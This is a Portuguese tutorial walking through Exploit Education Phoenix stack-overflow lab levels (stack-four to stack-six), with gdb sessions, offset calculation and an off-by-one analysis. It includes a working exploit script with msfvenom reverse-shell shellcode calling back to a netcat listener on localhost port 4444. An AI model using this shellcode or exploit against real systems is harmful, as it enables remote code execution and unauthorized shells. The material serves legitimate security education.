alterar o RIP salvo (SRP) e redirecionar a execução do programa!
üî• Exploit
üî¨ Analisar o programa
O programa contem 3 funções: complete_level, start_level e main
main printa a mensagem do começo do nível e chama start_level
complete_level é a função que precisamos chamar
start_level é onde a magica acontece: gets() (vulnerável) é chamada num buffer[64]
⁉️ O compilador adicionou coisa???
Se colocarmos somente um byte:
$ ./stack-four
Welcome to phoenix/stack-four, brought to you by https://exploit.education
A
and will be returning to 0x40068d
A função normalmente retorna para 0x40068d !
$ python -c "print 'A'*80" | ./stack-four
Welcome to phoenix/stack-four, brought to you by https://exploit.education
and will be returning to 0x40068d
Segmentation fault
Nos colocamos mais de 64 bytes (80), e conseguimos dar overflow... mas o rip não mudou e mesmo assim teve seg fault.... QUE?!!!!
O compilador muitas vezes coloca coisas na stack por performance ou compatibilidade!
Alem disso, nos exemplos passados o valor que queremo mudar estava logo depois do buffer, agora tem pelo menos o RBP salvo no meio do caminho!
Então precisamos levar isso em consideração, não basta só olhar que o tamanho do buffer é 64 e colocar 64 bytes de padding!
Em aplicações mais complexas, essa diferença pode chegar a centenas de bytes.
Nos podemos encontrar essa diferença usando ferramentas como fuzzers ou geradores de padrão...
Como nosso exemplo é simples, podemos aumentar/diminuir manualmente ate encontrar o valor certo:
$ python -c "print 'A'*89" | ./stack-four
Welcome to phoenix/stack-four, brought to you by https://exploit.education
and will be returning to 0x41
Segmentation fault
$ python -c "print 'A'*88" | ./stack-four
Welcome to phoenix/stack-four, brought to you by https://exploit.education
and will be returning to 0x400000
Segmentation fault
Isso quer dizer que apoś 88 bytes, temos o SRP :D
üè† Encontrar endere√ßo de complete_level
Você se lembra como faz? Nos usamos no exercício passado....
cof cof objdump -d cof cof
Se vc quer tentar sozinhx, agora é a sua hora
.
.
.
.
.
.
.
.
.
.
.
.
.
Eai, conseguiu?
Encontrar endereço:
$ objdump -d stack-four | grep complete_level
000000000040061d <complete_level>:
Exploit:
$ python -c "print 'A'*88 + '\x1d\x06\x40'" | ./stack-four
Welcome to phoenix/stack-four, brought to you by https://exploit.education
and will be returning to 0x40061d
Congratulations, you've finished phoenix/stack-four :-) Well done!
Esse foi um tutorial beeem longo, e com certeza o mais difícil! Se você chegou até aqui, parabéns! :D
üí´ Solu√ß√£o
$ python -c "print 'A'*88 + '\x1d\x06\x40'" | ./stack-four
Welcome to phoenix/stack-four, brought to you by https://exploit.education
and will be returning to 0x40061d
Congratulations, you've finished phoenix/stack-four :-) Well done!
üéØ Objetivo
Finalmente! Tudo isso para chegar no BOF SRP (clássico) :D
Agora ta na hora de redirecionar o pointer para o nosso código malicioso (shellcode) para ganhar uma shell
üí° Dicas
A instrução 0xCC (int3) serve para no debugger (como o gdb), para quando o rip chegar nela, a execução pausar (breakpoint). Nos podemos usa-la para testar se
sequer conseguimos executar código, ou se o problema ta no shellcode: Se o debugger avisa que teve SIGTRAP, nos temos execução de código :D
Banco de dados de shellcode: shell-storm
üî• Exploit
Analisando o programa
main() printa o banner e chama start_level()
start_level() cria um buffer[128] e salva o output de gets() (inseguro)
Como você pode ver, não existe complete_level()
Para completar, precisamos executar nosso próprio código (shellcode) e conseguir uma shell (uma linha de comando)
Agora em ASM :D (analise estática)
Normalmente, o gdb printa assim:
0x00000000004005a4 <+0>: push rbp
0x00000000004005a5 <+1>: mov rbp,rsp
0x00000000004005a8 <+4>: sub rsp,0x10
Porem, eu removi os endereços para simplificar, e só mantive os importantes!
Primeiro, vamos ver main
gef> disassemble main
push rbp
mov rbp,rsp <- Prologo
sub rsp,0x10
mov DWORD PTR [rbp-0x4],edi
mov QWORD PTR [rbp-0x10],rsi <- args de puts
mov edi,0x400620
call 0x400400 <puts@plt> <- call puts
mov eax,0x0 <- args de start_level (nenhum)
call 0x40058d <start_level> <- call start_level
mov eax,0x0 <- exit code (código de saida, 0=sem erro)
leave <- Epilogo
Agora vamos ver start_level
gef> disassemble start_level
push rbp
mov rbp,rsp <- Prologo
add rsp,0xffffffffffffff80
lea rax,[rbp-0x80] <- rax = Pointer para buffer[128]
mov rdi,rax <- rdi = rax
0x000000000040059c <+15>:
call 0x4003f0 <gets@plt> <- call gets
nop
leave <- Epilogo
ret
Agora vamos adicionar um breakpoint!
Breakpoint
Breakpoint = ponto de pausa
Antes daquela intrusão ser executada, sera substituída por 0xCC. Isso faz o debugger pausar a execução do programa naquela instrução!
Quando continuamos executando (normalmente o comando é continue), o 0xCC é substituído pela instrução certa :D
Se você esta fora de um debugger, 0xCC vai fazer o programa sair com erro
gef> b *0x000000000040059c
Breakpoint 1 at 0x40059c
"b" é o comando do gdb para adicionar um breakpoint \
A "*" tem haver com aquele dos pointers \
O endereço é para "call gets"
Dica: se você selecionar/sublinhar (clique esquerdo e passa o mouse em cima, você sabe do que eu to falando), e clicar o botão do meio no mouse (a rodinha) o terminal automaticamente da Ctrl-C Ctrl-V naquele valor para você! Então não precisa copiar o endereço manualmente :D
Agora vamos executar o programa (analise dinâmica)
126 As não causam erro, e 127 As causam... ue, mas pq? não era pra dar erro só em 128?
$ python3 -c "print('A'*126)" | ./stack-five
Welcome to phoenix/stack-five, brought to you by https://exploit.education
$ python3 -c "print('A'*127)" | ./stack-five
Welcome to phoenix/stack-five, brought to you by https://exploit.education
Segmentation fault
Isso vai ser muito importante no próximo desafio: buffers são terminados com um null byte!
Por enquanto, isso só nos mostra que o compilador não adicionou nada no meio do caminho entre o buffer e o EBP+EIP Salvos :D
E nós ja sabemos como controlar o EIP, então agora só precisamos saber para onde redirecionar a execução :)
Encontrar endereço do buffer
Agora dentro do gdb (gdb stack-five)
gef> r <<< $(python3 -c "print('A'*100)")
r é o comand do gdb para rodar o programa! Adicionando "<<<" nós podemos mandar uma string pro input! Também funciona com arquivos ( r < nome_do_arquivo ) :D
gef> r <<< $(python3 -c "print('A'*100)")
Starting program: /opt/phoenix/amd64/stack-five <<< $(python3 -c "print('A'*100)")
Welcome to phoenix/stack-five, brought to you by https://exploit.education
Breakpoint 1, 0x000000000040059c in start_level ()
--- Output do gef ---
gef é uma extensão do gdb que vai te dar um monte de informação util quando você chegar num breakpoint
O output do gef contem:
 Porem, mais informações podem ser adicionadas! use
Porem, mais informações podem ser adicionadas! use gef help para ver como ele pode te ajudar :D
Caso o programa seja executado sem breakpoints e com muitos As, vamos receber uma SIGSEV informando que "$PC"(outro nome para RIP) não pode ser redirecionado para "41414141", confirmando que o nosso buffer overflow é possível (olha as linhas no final da segunda imagem)
Agora, vamos colocar o breakpoint em call gets() e executar o programa com 140 As
As partes importante no output do gef são:
registers
argumentos (vazio: o pointer em RDI aponta para 0x00007fffffffe5b0, que possui o valor 0x0000...,)
Lembrete de que pointer começa com 2 NULL bytes ai :D 0x00007fff....
stack

Você também acha que tem uma falta de AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA ?? hehehe :P
(((Insira aquele meme muito velho da cabra gritando)))
Então vamos avançar para próxima instrução (step: s) :D

Isso quer dizer que aquele pointer dos argumentos (RDI) agora aponta para os As! :D
gef> x/s 0x00007fffffffe5b0 -> x/s é o comando para printar strings
0x7fffffffe5b0: 'A' <repete 140 vezes>
Então nos ja temos o endereço dos nossos As :D ... que em breve serão shellcode :D
Mas agora precisamos saber com precisão quantos As até o RIP, info frame vai nos ajudar com isso:
gef> info frame
Stack level 0, frame at 0x7fffffffe640:
rip = 0x4005a1 in start_level saved rip = 0x4005c7
called by frame at 0x7fffffffe610
Arglist at 0x7fffffffe630, args:
Locals at 0x7fffffffe630, Previous frame's sp is 0x7fffffffe640
Saved registers:
rbp at 0x7fffffffe630, rip at 0x7fffffffe638
A ultima linha é a mais importante!
RIP em: 0x7fffffffe638
Então para encontrar precisamente quantos As precisamos colocar até chegarmos no RIP,
basta subtrair endereço do rip salvo - endereço dos As
$ python3
>>> 0x7fffffffe638 - 0x00007fffffffe5b0
136
Para confirmar isso, vamos rodar com 136 As + BBBB

RIP = BBBB (42424242) :D
NOP sled
Entretanto, como nada pode ser simples nesse mundo do desenvolvimento de exploits, nós não conseguimos saber com precisão que o buffer vai estar naquela localização :(
Isso ocorre pois as envs são alocadas na stack. E elas variam muito, por exemplo, só de mudar o local de onde o programa esta sendo executado quebraria o nosso exploit.
Dica: O gef pode nos ajudar a encontra-las 
Por exemplo:

Para remediar isso, podemos usar um NOP sled (ou NOP slide) ! :D
(Outro método de remediação é mencionado em stack-six)
NOP significa "No OPeration" (Nenhuma OPeração) ! é uma instrução que não faz nada :D
A representação em machine code do NOP é 0x90 :D Bem fácil de decorar, quem me dera escola fosse fácil assim hehehe :)
O processador vai fazer nada e passar para a próxima, e se nós colocarmos vários desses em sequencia, o RIP vai "deslizando" através até chegar no nosso código!
Você pode imaginar um escorregador :D yuuuuupiii
Então a gente redireciona o RIP para o meio do escorregador de NOPs, para ele deslizar até o nosso código :D
Assim, mesmo se o buffer estiverem em um endereço diferente, o RIP vai chegar no nosso shellcode
Para testar isso, vamos usar o truque do 0xCC mencionado anteriormente
O input que vai passar vai conter:
NOP * 135
0xCC
Endereço para ser colocado no RIP: 0x00007fffffffe5b0 + 70
70 = metade do escorregador (135)
E os breakpoints do gdb serão removidos, então caso encontremos um breakpoint, foi o 0xCC acima
$ python3
>>> hex(0x00007fffffffe5b0 + 70)
'0x7fffffffe5f6' - Little Endian -> '\xb6\xe5\xff\xff\xff\x7f'
Agora executando:
r <<< $(python -c "print '\x90' *135 + '\xcc' +'\xb6\xe5\xff\xff\xff\x7f'")
Nos recebemos uma SIGTRAP (chegou no breakpoint)
[#0] Id 1, Name: "stack-five", stopped, reason: SIGTRAP
E na seção code do gef
 Meio difícil de ver, mas tem:
Meio difícil de ver, mas tem:
NOP
NOP
INT3
(bad)
(bad)
int3 é o nome de 0xCC, da mesma maneira que NOP é o nome de 0x90
Apos a nossa ultima instrução ha instruções invalidas (bad) que eram o nosso pointer, e logo em seguida o resto do programa normal! :D
Shellcode
Shellcode é o código malicioso que vai ser executado ( normalmente te dando uma shell (terminal) não autorizada )
Nos podemos usar os do link citado na dica, ou gerar uma usando msfvenom (ja vem instalado no kali linux)
msfvenom -p linux/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 --platform linux -a x64 -f python --var-name buf
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of python file: 373 bytes
buf = b""
buf += b"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48"
buf += b"\x97\x48\xb9\x02\x00\x11\x5c\x7f\x00\x00\x01\x51\x48"
buf += b"\x89\xe6\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e"
buf += b"\x48\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x6a\x3b\x58"
buf += b"\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x48"
buf += b"\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05"
Agora, vamos fazer um exploit mais bem feito! vim /tmp/gerar_exploit.py
buf = b""
# shellcode
buf += b"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48"
buf += b"\x97\x48\xb9\x02\x00\x11\x5c\x7f\x00\x00\x01\x51\x48"
buf += b"\x89\xe6\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e"
buf += b"\x48\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x6a\x3b\x58"
buf += b"\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x48"
buf += b"\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05"
# NOP Sled para completar o resto do tamanho
buf = '\x90'*(136-len(buf)) + buf
# ret
buf += b'\xb6\xe5\xff\xff\xff\x7f'
open("/tmp/exploit","wb").write(buf)
O script /tmp/gerar_exploit.py vai gerar o que colocaríamos no input, mas ao invés de printarmos para o terminal, vamos salvar em um arquivo binário (por isso o "
wb" noopen)!Depois é só ler esse arquivo e redireciona-lo
cat /tmp/exploit | ./stack-five
Porem, se tentamos executar esse exploit, recebemos SIGSEV: violação de segmento
Corrigindo o problema
Nessa eu empaquei, e a solução veio daqui: blog lamarranet
Então valeu pela ajuda :D
Ao invés de colocar o endereço do buffer diretamente no RIP, vamos achar algo no programa original que aponte para ele: um jmp esp por exemplo
E o beneficio é que, por estarmos pulando para uma parte estática, e usando-a para redirecionar para o buffer, não corremos o risco do buffer mudar de endereço!
Isso quer dizer que não precisamos mais do NOP slide :D
ROP Gadgets
Essa é uma técnica chamada programação ROP, que sera discutida em tutoriais futuros :D Mas o que você precisa saber por enquanto é que cada um desses jmps é chamado de gadget
Gadgets são instruções em outras partes do programa, que são reaproveitadas por nos. Geralmente executar algo e pular para outro gadget!
Para achar esse jmp que nos ajudaria, podemos usar uma ferramenta chamada ROPgadget
$ ROPgadget --binary stack-five --only "jmp"
Gadgets information
============================================================
0x0000000000400481 : jmp rax
Unique gadgets found: 1
Isso quer dizer que, ao pular para 0x400481, vamos executar jmp rax e acabar pulando para rax! e para onde rax aponta?
Colocando um break antes do ret de start_level, podemos ver que antes de retornar, rax aponta para o mesmo endereço que rsp, e convenientemente o inicio do nosso buffer

rax,rdi e rsp apontam para o inicio do buffer dos As
Assim, não vamos mais precisar do NOP slide: temos um exploit que 100% dos casos vai apontar para o inicio do buffer!
Só precisamos colocar padding entre o shellcode e o RIP
Então vamos modificar o exploit :D
Dica: Shellcode+AAAAA+ret, Little Endian, 136 bytes ate RIP
Se você não quiser ver a solução enquanto tenta!
.
.
.
.
.
.
.
.
.
.
.
buf = ""
# shellcode
buf += "\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48"
buf += "\x97\x48\xb9\x02\x00\x11\x5c\x7f\x00\x00\x01\x51\x48"
buf += "\x89\xe6\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e"
buf += "\x48\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x6a\x3b\x58"
buf += "\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x48"
buf += "\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05"
# Padding
buf += 'A' * (136 - len(buf))
# ret
buf += '\x81\x04\x40' # Aponta para jmp rax
open("/tmp/exploit","wb").write(buf)
Eu removi o b"" pq tava dando problema :(
Agora basta gerar o exploit: python /tmp/gerar_exploit.py
Abrir um novo terminal: ssh -p 2222 user@localhost
Terminal 1: nc -lvnp 4444
Terminal 2: cat /tmp/exploit | ./stack-five
Agora, no terminal 1 deve ter uma shell :D

Dica:
bash -ipvai deixar a sua shell mais usável
Se nos tivéssemos executado o programa como root, a nossa shell teria esses privilégios elevados ! :D

UID = 0 quer dizer que possuímos privilégios de root, mesmo que o whoami não tenha dito root
E se o programa estivesse exposto para a rede, poderíamos conseguir uma root shell remota :D (spoiler para os próximos desafios hehehe)
Você chegou até aqui :D
Toma mais um gif de panda como presente
üí´ Solu√ß√£o
vim /tmp/gerar_exploit.py
buf = ""
# shellcode
buf += "\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48"
buf += "\x97\x48\xb9\x02\x00\x11\x5c\x7f\x00\x00\x01\x51\x48"
buf += "\x89\xe6\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e"
buf += "\x48\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x6a\x3b\x58"
buf += "\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x48"
buf += "\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05"
# Filler
buf += 'A' * (136 - len(buf))
# ret
buf += '\x81\x04\x40' # Aponta para jmp rax
open("/tmp/exploit","wb").write(buf)
Agora basta gerar o exploit: python /tmp/gerar_exploit.py
Abrir um novo terminal: ssh -p 2222 user@localhost
Terminal 1: nc -lvnp 4444
Terminal 2: cat /tmp/exploit | ./stack-five
Agora, no terminal 1 deve ter uma shell :D
üí° Dicas
Off-by-one BOF
üõ∏ Explica√ß√£o
O programa aceita um nome por meio da env ExploitEducation! Esse nome é usado para gerar uma mensagem de boas vindas! \
Esse processo de gerar as mensagens é vulnerável a buffer overflow!
Analisando o programa
main
int main(int argc, char **argv) {
char *ptr;
printf("%s\n", BANNER);
#ifdef NEWARCH
if (argv[1]) {
what = argv[1];
}
#endif
ptr = getenv("ExploitEducation");
if (NULL == ptr) {
// This style of comparison prevents issues where you may accidentally
// type if(ptr = NULL) {}..
errx(1, "Please specify an environment variable called ExploitEducation");
}
printf("%s\n", greet(ptr));
return 0;
}
Main começa definindo um pointer (ptr) e printando o banner
Em seguida, faz verificações relacionadas à arquitetura do sistema usando o diretivo:
#ifdef NEWARCH. O diretivo #ifdef NOME checa se a macro chamada NOME existe.
Isso é usado para tornar o inicio da mensagem de boas vindas (gerada por greet) ser dependente da arquitetura!
Por isso nos não a encontramos no código fonte! Mas caso usemos strings conseguimos encontra-las no binário:
Em seguida, main salva o valor da env var "ExploitEducation" no pointer ptr
Depois, é checado se ptr é NULL (a env var não existe)
Caso não exista: usa a função errx() para interromper a execução com uma mensagem de erro! errx() recebe 2 argumento: (código_do_erro, mensagem_do_erro)
No nosso caso:
ptr = getenv("ExploitEducation");
if (NULL == ptr) {
errx(1, "Please specify an environment variable called ExploitEducation");
}
// Código de erro: 1
// Mensagem de erro: Por favor, especifique uma env var chamada ExploitEducation
Nos podemos confirmar isso usando: echo $?, que printa o código retornado pelo ultimo programa
0 = sem erro, 1 = erro
por ultimo, greet() é chamada, e o valor retornado por ela é printado!
E o programa finaliza retornando 0 (sem erro)!
Dica
Para definir uma env var no gdb
set environment ExploitEducation=ABC
greet
char *greet(char *who) { // who = nome da pessoa
char buffer[128];
int maxSize;
maxSize = strlen(who);
if (maxSize > (sizeof(buffer) - /* garantir terminação com null */ 1)) {
maxSize = sizeof(buffer) - 1;
}
strcpy(buffer, what); // Inicio da mensagem de boas vindas
strncpy(buffer + strlen(buffer), who, maxSize);
return strdup(buffer);
}
Agora chega a parte vulnerável! D:
A função greet recebe um argumento: "who" (quem recebe a mensagem de boas vindas)
São definidas duas variáveis locais: buffer[128] e maxSize (tamanho máximo)
O tamanho de who é salvo em maxSize
Lembrete: Buffers são terminados com um NULL byte, portanto um buffer[128] só armazena 127 letras!
Em seguida, é checado se maxSize é maior que o tamanho(buffer) - 1 (-1 por causa no null byte final)
Caso seja maior, maxSize vai ser definido como o tamanho(buffer) - 1 (maxSize = 127)
Portando, o limite de maxSize é 127
Essa é uma tentativa de prevenir o buffer overflow! Pois, só seriam copiados 127 bytes, impedindo o overflow D:
Mas aqui que entra o problema: essa contagem não leva em consideração o inicio da mensagem (what)! Aquele que era dependente da arquitetura :D
Então nos vamos acabar escrevendo fora do buffer! Aqui esta a parte do código que causa a vulnerabilidade
strcpy(buffer, what); // what = inicio da mensagem
strncpy(buffer, who, maxSize); // who = o valor de ExploitEducation! Quem recebe o oi :D
Nos ja sabemos como o strcpy funciona (você passa um buffer como alvo e o que vamos salvar nele, ignorando tamanho!
Caso nos conseguíssemos controlar what, poderíamos facilmente exploitar o programa)
str N cpy (strncpy) é similar a strcpy, mas recebe um terceiro parâmetro: tamanho!
Esse tamanho é limitado à 127 (limite de maxSize), então teoricamente não seria exploitavel :(
Mas espera ai, ja tinha coisa naquele buffer!!! O inicio da mensagem!!!
O tamanho do inicio é 34 bytes (na versão amd64)
$ python3
>>> x = "Welcome, I am pleased to meet you "
>>> len(x)
34
Isso quer dizer que no buffer cabem 128, mas foram colocados 34 + 127: Overflow!
Então se não fosse pelo inicio da mensagem, não seria exploitavel :D
Uma maneira de concertar essa vulnerabilidade seria: strncpy(buffer, who, maxSize - sizeof(buffer)) (subtrair o tamanho atual)
Analisando o programa (ASM)
main
gef> disassemble main
push rbp
mov rbp,rsp ; Prologo
sub rsp,0x20
mov DWORD PTR [rbp-0x14],edi
mov QWORD PTR [rbp-0x20],rsi
mov edi,0x400878
call 0x400530 <puts@plt> ; printar o banner
mov edi,0x4008c2 ; o 1º argumento é "ExploitEducation"
call 0x400520 <getenv@plt> ; Le as env vars e coloca "ExploitEducation" em rax
mov QWORD PTR [rbp-0x8],rax ; Pointer para rax
cmp QWORD PTR [rbp-0x8],0x0 ; Compara esse pointer com 0x0
; (Teoricamente "cmp rax, 0x0" também deveria funcionar,
; mas salvando nesse pointer, podemos usar o valor depois)
jne 0x4007dd <main+66> ; Jump not equal (pular se a comparação anterior for diferente)
; Mas pular para onde? Para main+66 (logo depois da mensagem de erro)
; Ou melhor: Caso ExploitEducation esteja definida, nos não emitimos erro
Essa parte só executa caso ExploitEducation não exista {
mov esi,0x4008d8 ; 2º argumento
mov edi,0x1 ; 1º argumento
mov eax,0x0 ; Valor retornado por main
call 0x400540 <errx@plt> ; Interrompe a execução e sai com erro
}
0x4007dd <main+66>:
mov rax,QWORD PTR [rbp-0x8] ; Lembra daquele pointer que salvamos com o rax de getenv() ?
; Coloca ele em rax de novo :D
mov rdi,rax ; 1º argumento: rax (o valor da env ExploitEducation)
call 0x4006fd <greet> ; Chama greet()
mov rdi,rax ; 1º argumento: O valor que greet retornou (salvo em rax)
call 0x400530 <puts@plt> ; Printa a mensagem de boas vindas para o terminal
mov eax,0x0 ; Valor retornado por main: 0 (sem erro)
leave ; Epilogo
ret
Não é tão relevante analisar o assembly de greet para entender a vulnerabilidade, dado que temos o código fonte!
Mas caso queira, você pode analisar por conta própria e relacionar o ASM com o código fonte por treino :D
Fuzz
Agora que sabemos que é possível realizar o overflow, vamos ver o que é corrompido :D
Nos só podemos colocar 127 no bytes no input, pois se colocarmos mais o programa simplesmente vai remove-los: então colocar 127 ou 200 teria o mesmo efeito! :)
Primeiro, vamos encontrar aonde colocaremos nossos breakpoints
gef> disassemble greet
Dump of assembler code for function greet:
0x00000000004006fd <+0>: push rbp
0x00000000004006fe <+1>: mov rbp,rsp <---
0x0000000000400701 <+4>: push rbx
0x0000000000400702 <+5>: sub rsp,0xa8
.......
.......
0x0000000000400798 <+155>: pop rbx
0x0000000000400799 <+156>: pop rbp <---
0x000000000040079a <+157>: ret
End of assembler dump
Vamos colocar uma no inicio de greet e uma no final! :D
gef> b *0x4006fe
Breakpoint 1 at 0x4006fe
gef> b *0x40079a
Breakpoint 2 at 0x40079a
E vamos rodar com 127 As:
Obs:
gef> set environment ExploitEducation=$(python -c "print 'A' * 127")
Deve ria funcionar, mas não funciona sei la por que :(
Então eu rodei em outro terminal!
python -c "print 'A' * 127"
E dei Ctrl+shift+C Ctrl+shift+V
gef> set environment ExploitEducation=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
eita, overflow no tutorial XD ! O computador ta se revoltando!!
Agora, vamos rodar o programa r. Quando ele chegar no breakpoint 1 (inicio de greet), pode analisar o frame e ver aonde o rbp de main foi salvo!
gef> info frame
Stack level 0, frame at 0x7fffffffe590:
rip = 0x4006fe in greet; saved rip = 0x4007e9
called by frame at 0x7fffffffe5c0
Arglist at 0x7fffffffe580, args:
Locals at 0x7fffffffe580, Previous frame's sp is 0x7fffffffe590
Saved registers:
rbp at 0x7fffffffe580, rip at 0x7fffffffe588 <- aqui
Agora que nos sabemos o endereço de RIP e RBP, podemos checar seu valores:
endereço: valor
gef> x/xg 0x7fffffffe580 -> rbp
0x7fffffffe580: 0x00007fffffffe5b0
gef> x/xg 0x7fffffffe588 -> rip
0x7fffffffe588: 0x00000000004007e9
Obs: o /xg é só para a formatação ficar legível! Significa eXtra Grande (que é o tamanho do pointer na arquitetura amd64)!
Isso quer dizer que no inicio de greet, os valores do RIP e RBP salvos na stack são: 0x00000000004007e9 e 0x00007fffffffe5b0
Agora vamos continuar a execução c, e ver se eles se alteram (lembrando greet é vulnerável)!
gef> c
---- output do gef ----
gef> x/xg 0x7fffffffe580 -> rbp
0x7fffffffe580: 0x00007fffffffe541
gef> x/xg 0x7fffffffe588 -> rip
0x7fffffffe588: 0x00000000004007e9
Eita! RBP foi alterado D:
0x00007fffffffe5b0 ---> 0x00007fffffffe541
Isso quer dizer que nós conseguimos controlar o últimos byte do rbp salvo! Esse ultimo byte constuma ser
chamado de LSB (Least Significant Byte, Byte menos significante)
Assim, quer dizer que esse buffer overflow é um BoF que corrompe o LSB, ou como é mais conhecido: off-by-one (errado por um)!
Esse tipo de buffer overflow é bem comum: vão esquecer de que o buffer termina com um 0x00 e vão comparar o input com o tamanho do buffer,
ao eves do tamanho do buffer - 1. Assim, permitindo que seja escrito 1 byte fora do buffer!
Curiosidade
Lembra que o texto no inicio do buffer varia de arquitetura para arquitetura? Isso acontece pois cada uma aloca as variáveis em uma posição, otimizam de maneira diferente, etcetc!
Muitas vezes um off-by-one não vai ser exploitavel, pois o byte que vem logo depois do buffer não necessariamente é o rbp! E esse é o nosso caso: existem outras variáveis dentro de greet!
Assim, quem desenvolveu o desafio nos fez o favor de colocar essa mensagem no inicio para compensar esse espaço!
Caso a mensagem fosse 1 byte maior, poderíamos controlar 2 bytes do rbp! Caso a mensagem fosse 1 byte MENOR, não conseguiríamos controlar o rbp!
E caso a mensagem fosse 4 bytes a mais, como você pode imaginar, poderíamos controlar o RIP :D
...
E caso o programa nem cheque o input? Ai facilita bastante pra gente hehe :D ! É o caso do desafio passado!
Assim, esse desafio foi feito de uma maneira que vá nos ensinar como exploitar um off-by-one que nos da execução de código
Na vida real, caso não existisse essa mensagem, só conseguiríamos exploitar esse off-by-one caso o nosso buffer estivesse adjacente ao rbp, isto é: não existe nenhuma outra variável, ou o buffer foi alocado na parte mais baixa da stack(Do lado do RBP)!
Nesse caso, nós nao conseguiríamos alterar RBP nem RIP,
portanto seria impossível conseguir execução de código :(
O máximo que conseguimos fazer é corromper 1 byte de uma variável!
._ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ .
| buffer | outras variáveis | RBP | RIP |
|_ _ _ _ _ _ _ _ |_ _ _ _ _ _ _ _ _ _ _ _ |_ _ _|_ _ _|
O impacto disso varia muito: não acontecer nada (mais comum),
fazer o programa crashar, ou alterar um valor importante
(por exemplo, aquela variável poderia armazenar o seu saldo do banco hehe ;) )...
Como ir de off-by-one para execução de código
Quando main chama call greet, ela salva o seu rbp e rip na stack!
Então esse rbp que estamos alterando é o rbp de main!
Quando greet retorna, main fica com o rbp errado!
Main vai ir ate o final da sua execução normalmente, na sua ultima instrução (ret) a magica acontece
Ret com um RBP corrompido
resumindo, ret é um: mov rsp rbp (descer o rsp), pop rbp (desce o rsp 8 bytes (a stack diminui para valores maiores, então +8)), e pop rip
Assim, caso mudemos o rbp para, por exemplo: 0x123456, quando main retornar, o valor de 0x123456 vai para o rbp e o de 0x123464 (+8) para o rip
Portanto, precisamos achar um valor para colocar no rip que va apontar para código que controlamos, e apontar rbp para esse endereço - 8 :D
Então caso o pointer que precisamos esteja em 0x12345678 e nos possamos controlar o ultimo byte do rbp: vamos colocar 0x12345670 (-8) no rbp!
E quando main retornar, o valor salvo em 0x12345678 vai para o rip !
E se nos controlamos RIP, controlamos a execução :D
üî• Exploit
Agora que sabemos o tipo de exploit que precisamos escrever, basta seguir os passos a seguir:
- Descobrir que partes da memoria controlamos
- Encontrar para que região podemos apontar rbp
- Encontrar um pointer nessa região que aponte para a parte que controlamos
O que controlamos?
Normalmente, nos controlamos o input e as env vars, nesse caso o input é passado pelas env vars... portanto podemos falar que a unica região da memoria que controlamos são as env vars
E qual é essa região? Vamos encontrar :D
Setup
As envs são diferentes dentro do gdb, nós podemos comparar usando
Fora do gdb: env
Dentro do dbg: show environment
A diferença é: gdb adiciona LINES e COLUMNS. E altera _ (o programa sendo executando nesse momento, esta definido como "/usr/local/bin/gdb")
user@phoenix-amd64$ diff /tmp/gdb /tmp/env
16,18c16
< _=/usr/local/bin/gdb
< LINES=33
< COLUMNS=168
---
> _=/usr/bin/env
Para concertar essa diferença, e garantir que todos endereços estão certos, basta executar dentro do gdb:
unset environment COLUMNS
unset environment LINES
set environment _=/opt/phoenix/amd64/stack-six
> Aviso: Se você sair do gdb elas vão resetar!
Descobrir que partes da memoria controlamos
Colocando um breakpoint no inicio de main (b *main), vamos encontrar registers apontando para envs!
Escolhendo o menor endereço e printando!
Dica: vale a pena conferir se aquele realmente é o inicio das envs, no nosso caso é :D
Isso quer dizer que as envs estão de: 0x7fffffffe817 (inclusivo) a 0x7fffffffeff8 (exclusivo)
Encontrar para que região podemos apontar rbp
Nesse caso é fácil ne? Se nós só podemos alterar o LSB, podemos alterar o RBP: de 0x00007fffffffe500 (inclusivo) a 0x00007fffffffe5ff (inclusivo)
Encontrar um pointer nessa região que aponte para a parte que controlamos
Agora vamos usar uma utilidade do gef chamada memwatch! Sempre que o gef printar aquele output gigante, vai adicionar a região da memoria especificada!
Voce vai estar "assistindo" aquela região da memoria! :D
Nos vamos executar gef> memory watch 0x00007fffffffe500 32 qword
Uma qword são 8 bytes, assim, 32 qwords são 256 bytes
Agora, vamos ver quando main retorna, o que tem nessa região
gef> disassemble main
Dump of assembler code for function main:
....
0x00000000004007f6 <+91>: leave
0x00000000004007f7 <+92>: ret
gef> b *0x00000000004007f7
Agora basta executar o programa ate chegar la (obs, se voce ainda ta naquele breakpoint de main, basta continuar (c))
Eita, bastante coisa!
Agora, entre esses endereços, precisamos encontrar um que tenha um pointer que aponte para a região da memoria que controlamos!
Pra facilitar isso, eu vou jogar todo o output do memwatch em um arquivo e usar grep
Todos os endereços da região que controlamos começam com 0x7fffffff, então esse ja é um bom começo
$ cat /tmp/mem | grep "0x00007fffffff"
0x00007fffffffe500│+0x0000 0x0000000000000001
